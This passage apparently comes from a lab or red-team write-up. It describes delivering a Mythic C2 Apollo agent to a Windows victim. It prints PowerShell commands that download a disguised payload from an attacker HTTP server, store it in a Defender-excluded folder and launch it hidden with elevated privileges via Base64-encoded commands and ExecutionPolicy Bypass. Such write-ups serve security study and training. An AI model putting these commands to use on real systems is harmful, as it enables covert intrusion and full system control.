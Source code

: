 ## 5.6 Downloading and Executing the Payload

The **Apollo agent payload**, previously generated using the **Mythic C2** server interface, was downloaded to the victim workstation directly from the **HTTP server (port 4444)**.  
This event was recorded on the **Kali Linux** machine and is visible in **Figure 7**.

The PowerShell command was **encoded to Base64** before execution.

**Command before encoding:**

```powershell
Invoke-WebRequest -Uri http://192.168.2.10:4444/update_service_Mal.exe -OutFile "C:\Users\Public\Downloads\update_service_Mal.exe"
```

**Command after encoding (executed from `cmd.exe`):**

```powershell
powershell.exe -NoProfile -ExecutionPolicy Bypass -EncodedCommand [BASE64…]
```

![Figure 7 — HTTP server logs showing the victim downloading update_service_Mal.exe](./images/http_download_apollo_payload.png)

**Figure 7 — HTTP server logs showing the victim downloading update_service_Mal.exe**

The file was saved in the directory that had been **excluded from Windows Defender scans**.

To ensure that the **Apollo agent** had **full access to the operating system**, it was launched with **elevated privileges**.  
This was done using the **Start-Process** cmdlet with the `-Verb RunAs` parameter, which triggered the **User Account Control (UAC)** prompt.  
This command was also encoded in Base64.

**Command before encoding:**

```powershell
Start-Process 'C:∖Users\Public\Downloads\update_service_Mal.exe' -WindowStyle Hidden -Verb RunAs
```

**Command after encoding (executed from `cmd.exe`):**

```powershell
powershell.exe -WindowStyle Hidden -NoProfile -ExecutionPolicy Bypass -EncodedCommand [BASE64...]
```

After executing `update_service_Mal.exe`, the **Apollo agent established its first connection (callback)** to the **Mythic C2 server**.  
This session ran with **Administrator privileges**, allowing full control over the victim system from the C2 interface.

